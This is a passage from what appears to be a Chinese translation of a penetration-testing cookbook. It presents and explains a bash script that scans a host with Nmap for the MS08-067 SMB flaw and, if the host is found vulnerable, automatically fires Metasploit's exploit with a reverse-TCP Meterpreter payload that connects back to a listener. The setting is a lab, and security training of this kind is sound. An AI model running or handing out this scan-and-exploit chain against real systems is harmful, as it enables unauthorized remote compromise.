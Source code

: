 ### 工作原理

通过提供`grep`序列作为`for`循环要使用的值，此秘籍中的 bash 脚本基本上只是循环遍历该函数的输出。 通过独立运行该函数，可以看到它只提取对应运行 SMB 服务的主机的 IP 地址列表。 然后，`for`循环遍历这些IP地址，并对每个 IP 地址执行 NSE 脚本。

## 8.3 使用 MSF 漏洞利用的 Nmap MSE 漏洞扫描

在某些情况下，开发一个将漏洞扫描与利用相结合的脚本可能会有所帮助。 漏洞扫描通常会导致误报，因此通过执行漏洞扫描的后续利用，可以立即验证这些发现的正确性。 此秘籍使用 bash 脚本来执行`smb-check-vulns.nse`脚本，来确定主机是否存在 MS08-067 NetAPI 漏洞，并且如果 NSE 脚本显示如此，Metasploit 会用于 自动尝试利用它来验证。

### 准备

要使用本秘籍中演示的脚本，你需要使用 grepable 格式的 Nmap 输出结果。 这可以通过执行 Nmap 端口扫描并使用`-oA`选项输出所有格式，或`-oG`来专门输出 greppable 格式来获取。 在提供的示例中，多个系统在单个`/24`子网上扫描，这包括 Windows XP 和 Metasploitable2。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本将漏洞扫描和目标利用的任务串联到一起。 在这种情况下，`smb-checkvulns.nse`脚本用于确定系统是否容易受到 MS08-067 攻击，然后如果发现系统存在漏洞，则对系统执行相应的 Metasploit 漏洞利用。

```sh
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST> <LHOST> <LPORT>"; 
exit; fi

rhost=$1 
lhost=$2 
lport=$3

nmap --script smb-check-vulns.nse -p 445 $rhost --scriptargs=unsafe=1 -oN tmp_output.txt 
if [ $(grep MS08-067 tmp_output.txt | cut -d " " -f 5) = "VULNERABLE" ];
    then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";   
    msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/ meterpreter/reverse_tcp RHOST=$rhost LHOST=$lhost LPORT=$lport E; 
fi 
rm tmp_output.txt  
```

为了确保你能理解脚本的功能，我们将按顺序对每一行进行讲解。脚本中的前几行与本章前面讨论的脚本相同。第一行定义解释器，第二行测试输入，第三，第四和第五行都用于根据用户输入定义变量。在此脚本中，提供的用户变量对应 Metasploit 中使用的变量。 `RHOST`变量应该定义目标的 IP 地址，`LHOST`变量应该定义反向监听器的 IP 地址，`LPORT`变量应该定义正在监听的本地端口。然后脚本在正文中执行的第一个任务是，对目标系统的 IP 地址执行`smb-check-vulns.nse`脚本，它由`RHOST`输入定义。然后，结果以正常格式输出到临时文本文件。然后，`if ... then`条件语句与`grep`函数结合使用，来测试输出文件中是否有唯一的字符串，它表明系统存在漏洞。如果发现了唯一的字符串，则脚本会显式系统看起来存在漏洞，然后使用 Metasploit 框架命令行界面（MSFCLI）使用 Meterpreter 载荷执行 Metasploit 漏洞利用。最后，在加载漏洞利用后，使用`rm`函数从文件系统中删除 Nmap 临时输出文件。`test_n_xploit.sh bash`命令执行如下：

```
root@KaliLinux:~# ./test_n_xploit.sh 
Usage: #./script <RHOST> <LHOST> <LPORT>
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 此使用描述显示，该脚本应以参数`RHOST`，`LHOST`和`LPORT`执行。 这些输入值将用于 Nmap NSE 漏洞扫描和（如果有保证）使用 Metasploit 在目标系统上执行利用。 在以下示例中，脚本用于确定 IP 地址为`172.16.36.225`的主机是否存在漏洞。 如果系统被确定为存在漏洞，则会执行利用，并连接到反向 TCP Meterpreter 处理器，该处理其在 IP 地址`172.16.36.239`的 TCP 端口 4444 上监听系统。
